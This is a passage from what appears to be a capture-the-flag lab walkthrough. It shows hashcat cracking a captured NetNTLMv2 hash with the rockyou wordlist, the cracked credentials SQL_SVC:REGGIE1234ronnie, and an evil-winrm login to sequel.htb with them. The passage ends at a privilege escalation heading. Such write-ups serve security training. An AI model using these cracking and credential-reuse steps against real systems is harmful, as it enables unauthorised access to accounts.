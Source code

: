 ### Gaining Access

Let's attempt to crack our newly obtained NTLM hash!

1. Place the entire hash into a file named hash.txt
2. Use hashcat to crack hash with specified wordlist such as rockyou.txt
3. Obtain password or attempt to pass the hash around the network if it fails

#### Cracking Hash

```
hashcat -a 0 -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt -O
```

cracked.txt:

{% code overflow="wrap" %}
```
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:55c3306c2a424405a7723b2fd4438adb:01010000000000008085528dd979d90109cbfb83529a36f000000000010010006800530049006500640061006c006600030010006800530049006500640061006c006600020010006b007900590078005100640049004300040010006b007900590078005100640049004300070008008085528dd979d901060004000200000008003000300000000000000000000000003000003d52eb97775a1999339f81b907194ef13041aa9cdcb498705ec7a93bf279f7190a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320033000000000000000000:REGGIE1234ronnie
```
{% endcode %}

#### Newly Acquired Credentials

```
SQL_SVC:REGGIE1234ronnie
```

### Authenticating via WinRM

```
evil-winrm -i sequel.htb -u SQL_SVC -p 'REGGIE1234ronnie'
```

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### <mark style="color:red;">SQL\_SVC</mark> -> <mark style="color:yellow;">Ryan.Cooper</mark>
